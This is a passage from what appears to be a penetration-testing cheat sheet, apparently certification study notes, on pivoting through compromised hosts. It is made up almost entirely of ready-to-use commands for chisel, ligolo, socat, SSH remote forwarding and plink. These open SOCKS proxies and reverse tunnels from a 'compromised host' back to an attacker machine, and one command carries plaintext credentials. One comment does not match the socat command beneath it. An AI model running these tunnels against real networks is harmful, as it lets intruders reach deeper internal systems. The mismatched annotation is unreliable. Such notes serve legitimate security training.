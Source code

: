 run as server (compromised host)
```
.\chisel.exe server --socks5
```

## Ligolo (better)

```
Run proxy as a server (attacker)

# Setup routes
sudo ip route add 192.168.0.0/24 dev ligolo

# Optional (make sure interface exist and activate it)
sudo ip tuntap add user username mode tun ligolo
sudo ip link set ligolo up

ligolo-proxy -selfcert

```

run agent as a client (compromised host)
```
.\agent.exe -connect 192.168.49.103:11601 -ignore-cert
```

## Socat

Forward local port 2345 to 10.4.50.215:5432
```
socat -ddd TCP-LISTEN:2222,fork TCP:10.4.196.215:22
```

## SSH 

Remote port forwarding (from compomised host to attacker machine to get to the deeper network on single host+port)
```
ssh -N -R 0.0.0.0:4444:10.4.218.215:4444 oscp@192.168.45.206
```

Remote dynamic port forward (from compomised host to attacker machine to get to the deeper network dynamicly)
```
ssh -N -R 9998 oscp@192.168.45.206
```

## Plink

```
C:\Windows\Temp\plink.exe -ssh -l oscp -pw oscp -R 127.0.0.1:9833:127.0.0.1:3389 192.168.45.206
```


# Active Directory
